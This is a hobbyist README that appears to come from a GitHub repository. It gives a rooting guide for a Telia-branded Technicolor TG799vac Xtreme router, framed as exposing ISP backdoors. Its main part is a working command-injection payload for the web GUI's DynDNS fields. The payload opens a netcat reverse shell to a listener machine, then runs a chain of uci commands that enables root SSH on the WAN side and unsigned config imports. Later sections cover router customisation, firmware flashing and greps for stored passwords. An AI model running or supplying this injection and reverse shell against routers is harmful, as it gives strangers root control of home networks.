# README

   Alright guys, i have bricked my old TG799VAC-XTREME when i figured out how to generate the access key so I just got my new TG799 VAC Xtreme2 with version 17.2 Mint, ofc i have hacked this one aswell since i DO not want backdoors in my network..

   I have not found any other tutorial how-to hack this version from technicolor in this way I have done it. Someone has to be the first on a new exploit and let everyone know what's really is an open door straight into your network and your digital life. This is    nothing people just should say things like "i do not care" cause this can really be abused if there is some blackhat hacker on the support or if someone just is curios about your life and has enough freetime . With TSHARK or 
   WSHARK they can sniff ALL your traffic no matter what ppl say since the router is the last point in 'almost' all home-networks. I exposing Telia again cause i see this as a REAL threat to our privacy...I had never questioned this if the providers had been straight and honest about what they actually 
   have access to. I will expose every setting, every ip and every key i can found until they will remove the backdoors. Now im bored so let's start i really hate to write descs and the faster you get this information, the faster you can protect yourself from the backdoors. 

#### FIRST SOME RLY SCARRY SHIT THAT USERS HAS NO KNOWLEDGE ABOUT AT ALL!!

#### The question is who has access to the logs from our router on the ip number you see in the picture below, why should they receive a lot of data from the router? They have gone so far so they storing logs when you start & restore the router, what are they doing with this data? This is really unpleasant and people really have no idea that things they do in their own home getting stored on a server in Stockholm / Telia. (whois the ip)



# HOWTO GET ROOT ACCESS FROM WEBGUI:

## SHORT VERSION



#### 1) Please wait 20-30 seconds before you trying to ssh into your router please after you pasted below commands.
#### 2) Connect to router: 'ssh root@192.168.1.1'
#### 3) Default password: root
#### 4) You have just hacked your router in 20 seconds. You also toke over root account from telia & technicolor devs.

##### Copy and paste all this stuff in dyndns field in webgui (edit ip): 

::::::;nc 192.168.1.144 1337 -e /bin/sh;rm /etc/dropbear/*;uci delete dropbear.mgmt &> /dev/null;uci delete dropbear.mgmt.PasswordAuth &> /dev/null;uci delete dropbear.mgmt.RootPasswordAuth &> /dev/null;uci delete dropbear.mgmt.Port &> /dev/null ;uci delete dropbear.mgmt.Interfac e&> /dev/null;uci delete dropbear.mgmt.AllowedClientIPs &> /dev/null;uci delete dropbear.mgmt.enable &> /dev/null;uci delete dropbear.mgmt.IdleTimeout &> /dev/null ;uci set dropbear.wan=dropbear;uci set dropbear.wan.PasswordAuth='off';uci set dropbear.wan.RootPasswordAuth='on';uci set dropbear.wan.Port='22';uci set ropbear.wan.Interface='wan';uci set dropbear.wan.AllowedClientIPs='wanip';uci set dropbear.wan.IdleTimeout='3600';uci set dropbear.wan.enable='1';uci set dropbear.lan=dropbear;uci set ropbear.lan.PasswordAuth='on';uci set dropbear.lan.RootPasswordAuth='on';uci set dropbear.lan.Interface='lan';uci set dropbear.lan.enable='1';uci set dropbear.lan.IdleTimeout='3600';uci set dropbear.lan.Port='22';uci set web.uidefault.nsplink='https://www.wuseman.com';uci set system.config.export_plaintext='1';uci set system.config.export_unsigned='1';uci set system.config.import_plaintext='1';uci set system.config.import_unsigned='1';uci set clash.main_config=single_config;uci set clash.main_config.module_path='/usr/lib/lua/clash/modules';uci set clash.main_config.log_level='3';uci set clash.engineer=user;uci set clash.engineer.ssh='1';uci set clash.engineer.telnet='1';uci set clash.engineer.serial='1';uci set clash.engineer.ssh_key='wuseman@thinkpad';uci set web.uidefault.upgradefw_role='admin';/etc/init.d/dropbear restart; uci commit

## LONG VERSION:

#### Let's begin. Fire up a terminal of any kind and just run the awesome netcat tool and listen on a port:

    nc -lvvp [machine_port]

#### Go to the WAN Services and press SHOW ADVANCED. In username, password and domain field you need type the below command, after this is done just enable the dyndns. It wont matter wich hoster you choose just pick one, press save and just wait 4-5 seconds and you have just got full root access of your TG799VAC Xtreme 17.2 Mint, check preview video above if you do not understand.

    :::::::`nc [machine_IP] [machine_port] -e /bin/sh`

##### You will see something similiar and if you see this then you got root access, type ls / for example:

    listening on [any] 1337 ...
    connect to [192.168.1.144] from router [192.168.1.1] 40980

#### Let us now allow SSH permanent, copy paste commands below:

    rm /etc/dropbear/*
    uci delete dropbear.mgmt &> /dev/null
    uci delete dropbear.mgmt.PasswordAuth &> /dev/null
    uci delete dropbear.mgmt.RootPasswordAuth &> /dev/null
    uci delete dropbear.mgmt.Port &> /dev/null
    uci delete dropbear.mgmt.Interfac e&> /dev/null
    uci delete dropbear.mgmt.AllowedClientIPs &> /dev/null
    uci delete dropbear.mgmt.enable &> /dev/null
    uci delete dropbear.mgmt.IdleTimeout &> /dev/null
    uci set dropbear.wan=dropbear
    uci set dropbear.wan.PasswordAuth='off'
    uci set dropbear.wan.RootPasswordAuth='on'
    uci set dropbear.wan.Port='22'
    uci set ropbear.wan.Interface='wan'
    uci set dropbear.wan.AllowedClientIPs='wanip'
    uci set dropbear.wan.IdleTimeout='3600'
    uci set dropbear.wan.enable='1'
    uci set dropbear.lan=dropbear
    uci set ropbear.lan.PasswordAuth='on'
    uci set dropbear.lan.RootPasswordAuth='on'
    uci set dropbear.lan.Interface='lan'
    uci set dropbear.lan.enable='1'
    uci set dropbear.lan.IdleTimeout='3600'
    uci set dropbear.lan.Port='22'
    uci set web.uidefault.nsplink='https://www.wuseman.com'
    uci set system.config.export_plaintext='1'
    uci set system.config.export_unsigned='1'
    uci set system.config.import_plaintext='1'
    uci set system.config.import_unsigned='1'
    uci set clash.main_config=single_config
    uci set clash.main_config.module_path='/usr/lib/lua/clash/modules'
    uci set clash.main_config.log_level='3'
    uci set clash.engineer=user
    uci set clash.engineer.ssh='1'
    uci set clash.engineer.telnet='1'
    uci set clash.engineer.serial='1'
    uci set clash.engineer.ssh_key='wuseman'
    uci set web.uidefault.upgradefw_role='admin'
    /etc/init.d/dropbear restart; uci commit; exit
    ssh root@192.168.1.1 "tee -a /etc/dropbear/authorized_keys" < ~/.ssh/id_rsa.pub; ssh root@192.168.1.1

#### When things gets broken for real as for example there is no space left and you can't even use rm -rf command then mtd will save you, run below command for a full factory reset:



    mtd -r erase rootfs_data

#### If WEBGUI ever will get broken cause you fucked it up then reset router with 'rtfd --all (same as press on reset button)'. If you want to keep files and just reset settings then use 'rtfd --soft' instead.



#### Banner (our internet providers have given us an firmware with absolutely minimal features, fuck you!!)



#### Banner(Default)



#### When you have root access on your router you will be able to unlock rootfs_data and install a very powerful gui vs original from Telia thanks to Ansuel and other awesoem developers by below command:

    curl -k https://repository.ilpuntotecnico.com/files/Ansuel/AGTEF/GUI.tar.bz2 --output /tmp/GUI.tar.bz2; bzcat /tmp/GUI.tar.bz2 | tar -C / -xvf -; /etc/init.d/rootdevice force; reboot

##### Now go visit http://192.168.1.1 and you will see a brand new GUI interface. Default login: username: admin - password:admin

#### This is how it will look a like after you run the above command:



#### Stats view:

#### Telstra Extension:



#### This is an example for default setup with more lua cards:



#### Luci is another thing you will be able to install - Not supported in above package yet:

##### Do you look forward to upgrade your firmware without any third party software or without any backdoors from your internet provider? Great, i will show you how you will do this easier then ever..

#### Add Administrator user to be allowed to upgrade firmwware:

    uci add_list web.uidefault.upgradefw_role='admin'
    uci commit

#### If you will try below command you will know how it feels to work for telia a support: ;)



    uci set web.usr_Administrator.role='superuser'
    uci set web.usr_Administrator.role='telia'



#### Add your own user without any extra tools:

#### Add a new user with clash:

    clash newsrpuser -u <wuseman> -p <password>

     uci set web_back.usr_wuseman.srp_salt='D0124225'
     uci add web_back.default.users='usr_wuseman'
     uci add web_back.uidefault.defaultuser='wuseman'
     uci add web_back.usr_wuseman=user
     uci set web_back.usr_wuseman.name='wuseman'
     uci set web_back.usr_wuseman.role='wuseman'
     uci set web_back.usr_wuseman.gak_id='1'

     echo "
     config user 'usr_wuseman'
     option name 'wuseman'
     option password_reminder '0'
     option srp_verifier 'A955EDB6ECAC0536BA69F9D1F1C7F3D9F8A02FDF29170D4A8506A14F7E6F752FF845DACE10E6B3C66C15EAAB53896E41D541C22F32E9E0E8D60A1D7F1D187604BE8A5653B5CDF327542E8DBE5C8481E40C70BD0506448695F7E85338D4427187A49CF799CDDDD2DB3E6D652A25830C42024EB9A682ED5C27E36B159DB7617F41FF6ED5EF58163AC2C68AC26B3D57749AF3AFEF6352950D79A410150E27CE984EA375613737A235B5E28D006C5CE69DE40B651020505AEB7CE5986829D79B9E0375F5127F090CD400B2A2D06385F9931071415042979C8ED80D328BA4810A1692E263733DA9D85DC7E762859145A0D6A607447FCF4FFD53D144D8E018D4F345C9'
     option srp_salt 'D0124225'
     " >> /etc/config/web

#### Create a user for minitrr064d

    computeHA1 -u <username> -p <password> -r
     Self test passed - HA1 computation reliable
     Self test passed - authentication check reliable

     Computing hash for <username>:minitr064d:<password>
     dba1af121349128daf864727a33b1614
     
### OPENVPN Client

##### Install Required Packages:

     opkg update; opkg install openvpn-openssl openssl-util

##### Configs - Network:

    uci set network.vpnclient="interface"
    uci set network.vpnclient.ifname="tun0"
    uci set network.vpnclient.proto="none"
    uci commit network;service network restart
    
##### Configs - Firewall:

     uci add firewall zone
     uci set firewall.@zone[-1].name="<vpn_client>"
     uci add_list firewall.@zone[-1].network="<vpn_client>"
     uci set firewall.@zone[-1].input="REJECT"
     uci set firewall.@zone[-1].output="ACCEPT"
     uci set firewall.@zone[-1].forward="REJECT"
     uci set firewall.@zone[-1].masq="​1"​
     uci set firewall.@zone[-1].mtu_fix="1"
     uci add firewall forwarding
     uci set firewall.@forwarding[-1].src="lan"
     uci set firewall.@forwarding[-1].dest="<vpn_client>"
     uci commit firewall; service firewall restart
     
#### Setup openvpn client:

     uci set openvpn.vpnclient="openvpn"
     uci set openvpn.vpnclient.enabled="1"
     uci set openvpn.vpnclient.config="/etc/openvpn/vpnclient.ovpn"
     uci commit openvpn;service openvpn restart

#### OPKG

##### With below setting you will be allowed to install packages from more repos:

    echo " 

    dest root /
    dest ram /tmp
    lists_dir ext /var/opkg-lists
    option overlay_root /overlay
    arch all 1
    arch noarch 1
    arch brcm63xx 3
    arch brcm63xx-tch 10" > /etc/opkg.conf

#### Enable TFTP and flash your device with TFTP:

    Set tftp enable 
      uci set dhcp.dnsmasq.enable_tftp='1'

    Switch device power off (or pull the power cord).
    Connect a client to the device via Ethernet to LAN1
    Trigger the rescue function by pressing and holding the reset button of the device and then turning the device on (or plug in the power cord).
    You can release the reset button after a few seconds.
    The device will take ~15-20 seconds to boot a mini-web server, that provides only a single function: it can upload a firmware file and has a button to trigger the flash process. The web-server will usually be available under either (if in doubt, try both)
    http://192.168.1.1

#### Setup a TFTP server on your Gentoo Linux pc:

    Install atftpd: 
     emerge --sync; emerge -a atftpd

    Create tftp dir:
     mkdir /mnt/tftp
 
    Copy firmware to our new tftp dir:
     cp <firmware.bin> /mnt/tftp/
    
    Change the ownership of the folder and the file in it:
     chown nobody:nogroup -R /mnt/tftp

    Setup configuration for our new dir:
     echo 'TFTPD_ROOT="/mnt/tftp"
           TFTPD_OPTS="--daemon --user nobody --group nobody' > /etc/conf.d/atftp
 
    Run TFTP server
     /etc/init.d/atftpd start

    Thats it, now use getent to confirm it is up and running:
      getent services tftp

#### Use TFTP to push firmware to tg799vac router:

    First you need to setup a static ip to be able to communicate with router:
     ifconfig eth0 192.168.1.2 netmask 255.255.255.0 up 
     route add default gw 192.168.1.1
     echo "nameserver 192.168.1.1" > /etc/resolv.conf

    Use wireshark for listen on BOOTP message, when tg799 router reporting BOOTP then run below command: 
    atftp --trace --option "timeout 1" --option "mode octet" --put --local-file tg799bin.firmware.rbi <ip-addr/hostname>

#### Remove all phone settings:

      phonesettings="$(uci show mmpbx|wc -l)";phoneshit="$(uci show mmpbx | cut -d= -f1)";for z in $phoneshit; do uci delete $z &> /dev/null; done ;echo "Removed $phonesettings useless settings for your router"'
      
      Removed 777 useless settings for your router' 

#### Remove all iptv settings:

     iptv="$(uci show | grep iptv | cut -d= -f1)"; for iptvcrap in $iptv; do uci delete $iptvcrap &> /dev/null; done; uci show |grep iptv; echo "Ups, no settings for iptv has been set"

#### Got stuck with some packages that says error opening terminal? No worries - This is caused cause colors - Run below command to fix the xterm problem:


   
    export TERM=linux
    export TERMINFO=/etc/terminfo

#### Run uci-whois.sh from scripts dir to whois all ip's that your isp added for various settings:

#### Mount root as read and write:

    mount -o remount,rw /

##### If you are lazy and want things sorted as i do, then run below command:



    mkdir uci_settings; cd uci_settings;
    for settings in $(uci show | awk -F. '{print $1}' | uniq);do uci show $settings > $settings;done

#### List product, serial, ssid prefix etc;

    cat /var/hostapd.env | sed 's/^_//g' | sed 's/=/ ===> /g'
      COMPANY_NAME ===> Technicolor
      PROD_NAME ===> MediaAccess TG
      PROD_NUMBER ===> Telia WiFi-router Plus v3
      PROD_FRIENDLY_NAME ===> Telia WiFi-router Plus v3
      VARIANT_FRIENDLY_NAME ===> TG799TSvac Xtream
      SSID_SERIAL_PREFIX ===> TNCAP
      BOARD_NAME ===> VBNT-H
      BOARD_SERIAL_NBR ===> SECRET
      PROD_SERIAL_NBR ===> SECRET
      MACADDR ===> E0-B9-15-23-22-54
       WL_MACADDR ===> E0-B9-15-23-45-55

#### List all files where "password=" is readable:

    sudo grep -rP -w -e 'password=' .| grep -v Binary | grep -v ddns

#### List all files where you can find your serial:

    find . -type f | xargs grep -e 'SERIAL' | cut -d':' -f1 | grep / | uniq

#### Some guys on openwrt forum claims that your webgui will be faster if you change some power settings (DO IT ON YOUR OWN RISK I HAVENT TRIED):

    pwrctl config --cpuspeed 0
    pwrctl config --wait off
    pwrctl config --ethapd off
    pwrctl config --eee off
    pwrctl config --autogreeen off

#### Change telia to admin in all lp files:

